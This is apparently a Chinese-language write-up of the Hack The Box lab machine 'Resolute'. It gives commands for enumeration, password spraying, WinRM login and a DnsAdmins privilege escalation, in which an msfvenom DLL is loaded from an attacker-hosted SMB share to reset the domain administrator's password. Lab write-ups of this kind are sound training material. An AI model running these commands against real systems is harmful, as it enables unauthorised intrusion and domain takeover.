


# ✔️ Resolute

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA resolute 10.129.176.63 --open
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* Nmap扫描结果中已获得了目标域名：<mark style="color:red;">**megabank.local**</mark>&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 因为没有任何Web页面的开放端口，所以直接进行针对SMB/RPC服务的一系列的匿名登录操作，看看是否可以找到些什么信息：

```bash
# 可以成功的匿名登录，但是没有任何信息返回：
smbclient -N -L 10.129.176.63
smbmap -H 10.129.176.63
nmap --script smb-vuln* -p 139,445 10.129.176.63
rpcclient 10.129.176.63
rpcclient -U '' 10.129.176.63
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 之前一直没啥大用的enum4linux这次表现不错，收集到了很多有用的信息，如目标上所有的用户名还有密码策略：

```bash
enum4linux 10.129.176.63
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


后面复盘时意识到，此处密码策略中的Account Lockout Threshold: None，这意味着可以是用密码暴破而不用担心账户被锁定，是否有意引导我进“兔子洞”？！因为本例中的所有凭证都无需暴破。


* 在enum4linux的输出结果中，就已经找到了一个有效凭证：<mark style="color:red;">**Marko Novak : Welcome123!**</mark>

<figure><figcaption></figcaption></figure>

* 将刚刚收集到的所有用户名全部整理成一份username.txt文件，待后续使用：

<figure><figcaption></figcaption></figure>

* 用Kerbrute先过一遍这个username列表，看看哪些用户名是域内有效的。29个用户名25个有效，太多了，看起来不太对，应该不是这么用的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.176.63 -d megabank.local username.txt
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 使用crackmapexec和刚才收集到的有效凭证登录一下目标系统的SMB服务：

```bash
crackmapexec smb 10.129.96.155 -u marko -p 'Welcome123!'
```

<figure><figcaption></figcaption></figure>

```bash
evil-winrm -i 10.129.96.155 -u marko -p Welcome123!
```

<figure><figcaption></figcaption></figure>

* 几次尝试确认自己没有输错后，发现该账户确实登录不上去，决定密码喷洒来找出是否还有其他用户账号也是用的这个密码：

```bash
crackmapexec smb 10.129.96.155 -u username.txt -p 'Welcome123!'
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 找到了一个新的有效凭证：<mark style="color:red;">**melanie:Welcome123!**</mark>

### GET SHELL

* 使用evil-winrm和新的凭证登录成功：

```bash
evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举无果后，决定上传winPEAS进行信息收集：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* winPEAS也没什么收获，上传sharphound收集，用bloodhound分析：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 至此，仍然无任何明显收获，应该是方向错了。决定从头开始枚举，列出了之前忽略掉的隐藏目录PSTranscripts：

```powershell
dir -force
```

<figure><figcaption></figcaption></figure>

* 找到了一个txt文件，查看后貌似是一个日志记录的文件，是关于用户ryan的：

<figure><figcaption></figcaption></figure>

* 同时也在这个txt文件中发现了用户<mark style="color:red;">**ryan**</mark>的登录凭证：<mark style="color:red;">**Serv3r4Admin4cc123!**</mark>

<figure><figcaption></figcaption></figure>

* 使用该凭证登录ryan账户后，枚举一下这个ryan的相关信息：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 在ryan账户下，发现了一个note.txt文档，像是一个备忘录之类的文档，没看出什么实际作用：

<figure><figcaption></figcaption></figure>

### ROOT

* 至此无法再继续下去，看提示后知道此处是DNSadmins滥用导致的提权攻击，才注意到ryan账户是DNSadmins组的成员账户，而该组成员是有权向目标DNS写入文件的。
* 使用msfvenom制作一个DLL文件，其中包含了自定义的administrator的登录密码，然后在kali本地开启smbserver：

```bash
msfvenom -p windows/x64/exec cmd='net user administrator fiii123 /domain' -f dll > resolute.dll
```

<figure><figcaption></figcaption></figure>

```bash
# 开启smbserver:
python3 smbserver.py share ./
```

<figure><figcaption></figcaption></figure>

* 在目标系统上下载这个DLL文件，重启一下DNS服务，该DLL文件即可生效：

```bash
cmd /c dnscmd localhost /config /serverlevelplugindll \10.10.16.12\share\resolute.dll
```

<figure><figcaption></figcaption></figure>

* 使用psexec.py和刚才自定义的新的administrator的密码登录后，成功ROOT：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


本例Get Shell阶段不难，常规的信息收集之后就能拿到。提权阶段涉及到了我的盲点，第一次遇到DNSadmins提权，查阅了一些提示和技术解析的文章后，成功root。

(本例机器中途重置过，因此IP地址有所改变，但不影响其利用过程和结果)



